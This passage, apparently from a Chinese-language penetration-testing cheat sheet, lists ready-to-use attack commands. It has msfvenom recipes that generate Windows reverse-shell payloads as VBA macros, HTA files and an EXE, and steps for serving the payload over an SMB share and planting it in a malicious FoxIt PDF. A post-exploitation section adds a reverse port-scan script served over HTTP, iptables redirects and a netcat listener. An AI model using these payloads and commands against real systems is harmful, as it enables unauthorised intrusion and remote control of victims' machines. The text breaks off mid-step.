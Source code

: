 ```python

```

## 用户交互

某些框只能通过用户交互来植根。特别是：

1. 生成 VBA 有效负载

   ```
   msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f vba -o macro.vba
   ```

2. 生成 HTA 有效负载

   ```
   msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta -o index.hta
   ```

3. 生成恶意的 FoxIt pdf 文档

[漏洞利用数据库脚本](https://www.exploit-db.com/exploits/49116)

[Impacket smbserver](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o giveyouup.exe
smbserver.py -smb2support -ip <IP> TMP .
python 49116.py \\<IP>\TMP\backdoor.exe letyoudown.pdf
```



# **Part 4: 后渗透阶段 (privesc, av bypass, loot)**

WinPEAS和LinPEAS中已经涵盖了几乎所有有关特权升级的内容： https://github.com/carlospolop/PEASS-ng

这是我自己的一个小清单：

### **1. 远程目标可以在哪个端口与我联系? (reverse tcp scan)**

获取[此脚本](https://github.com/InfosecMatter/Minimalistic-offensive-security-tools/blob/master/port-scan-tcp.ps1)并使其在端口 80 上可下载：

```
wget <https://github.com/InfosecMatter/Minimalistic-offensive-security-tools/raw/master/port-scan-tcp.ps1>
python -m http.server 80
```

就像为 meterpreter/reverse_tcp_allports 设置 iptables 一样，但要确保 80 端口可以查询，并启动 netcat catch-all。

```
sudo iptables -i tun0 -A PREROUTING -t nat -p tcp --dport 20:79 -j REDIRECT --to-port 8000
sudo iptables -i tun0 -A PREROUTING -t nat -p tcp --dport 81:6000-j REDIRECT --to-port 8000
nc -nlvp 8000
```

在本地运行该脚本:
